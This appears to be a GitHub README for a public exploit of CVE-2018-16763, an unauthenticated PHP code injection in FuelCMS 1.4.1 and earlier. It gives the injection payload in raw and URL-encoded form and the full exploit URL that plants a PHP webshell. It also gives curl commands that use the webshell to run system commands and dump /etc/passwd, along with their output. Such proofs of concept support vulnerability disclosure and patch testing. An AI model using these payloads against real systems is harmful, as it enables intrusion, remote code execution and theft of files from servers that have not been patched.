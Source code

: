 # FuelCMS - CVE-2018-16763

## Requirements

 - FuelCMS version <= 1.4.1
 - Unauthenticated.

## Exploitation

### Download the exploit 

You can find the exploit code for this CVE here: [https://github.com/p0dalirius/CVE-2018-16763-FuelCMS-1.4.1-RCE](https://github.com/p0dalirius/CVE-2018-16763-FuelCMS-1.4.1-RCE)

### Step 1: Upload the webshell plugin

First, you need to start the interactive [console.py](https://github.com/p0dalirius/CVE-2018-16763-FuelCMS-1.4.1-RCE/blob/master/console.py) to execute commands and download remote files. It will use CVE-2018-16763 php code injection in the `filter` parameter to upload a php webshell API in FuelCMS using `file_put_contents`. The payload used is the following:

```
'+pi(print($a='file_put_contents'))+$a($_POST["d0eb3f9a"],$_POST["9bc30f43"])+'
```

This payload urlencoded gives:

```
%27%2Bpi%28print%28%24a%3D%27file%5Fput%5Fcontents%27%29%29%2B%24a%28%24%5FPOST%5B%22d0eb3f9a%22%5D%2C%24%5FPOST%5B%229bc30f43%22%5D%29%2B%27
```

The final exploit URL is:

```
http://127.0.0.1:10080/fuel/pages/select/?filter=%27%2Bpi%28print%28%24a%3D%27file%5Fput%5Fcontents%27%29%29%2B%24a%28%24%5FPOST%5B%22d0eb3f9a%22%5D%2C%24%5FPOST%5B%229bc30f43%22%5D%29%2B%27
```

Now the interactive [console.py](https://github.com/p0dalirius/CVE-2018-16763-FuelCMS-1.4.1-RCE/blob/master/console.py) performs a POST request to this URL to upload [./webshell/webshell.php](https://github.com/p0dalirius/CVE-2018-16763-FuelCMS-1.4.1-RCE/blob/master/webshell/webshell.php) into Fuel CMS.

![](./.github/shell_autoupload.png)

### Step 2.1: Executing commands

You can now execute commands by sending a GET or POST request to http://127.0.0.1:10080/c1f3e834b49c4e548ebde7f596028f5b.php with `action=exec&cmd=id`:

```sh
$ curl -X POST 'http://127.0.0.1:10080/c1f3e834b49c4e548ebde7f596028f5b.php' --data "action=exec&cmd=id"
{"stdout":"uid=33(www-data) gid=33(www-data) groups=33(www-data)\n","exec":"id"}
```

You can also access it by a GET request from a browser.

### Step 2.2: Downloading files

You can also download remote files by sending a GET or POST request to http://127.0.0.1:10080/c1f3e834b49c4e548ebde7f596028f5b.php with `action=download&cmd=/etc/passwd`:

```sh
$ curl -X POST 'http://127.0.0.1:10080/c1f3e834b49c4e548ebde7f596028f5b.php' --data "action=download&path=/etc/passwd" -o-
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
mysql:x:101:101:MySQL Server,,,:/nonexistent:/bin/false
```

You can also download a remote file from a browser with a GET request.

### Step 3: The interactive console

When your webshell is active, you can now use the interactive [console.py](https://github.com/p0dalirius/CVE-2018-16763-FuelCMS-1.4.1-RCE/blob/master/console.py) to execute commands and download remote files.

https://user-images.githubusercontent.com/79218792/171498197-2fb8a7bd-45b0-4fd7-86a1-9bb74aa31664.mp4

## References
 - https://www.getfuelcms.com/
 - https://github.com/p0dalirius/CVE-2018-16763-FuelCMS-1.4.1-RCE
 - https://github.com/daylightstudio/FUEL-CMS/releases/tag/1.4.1
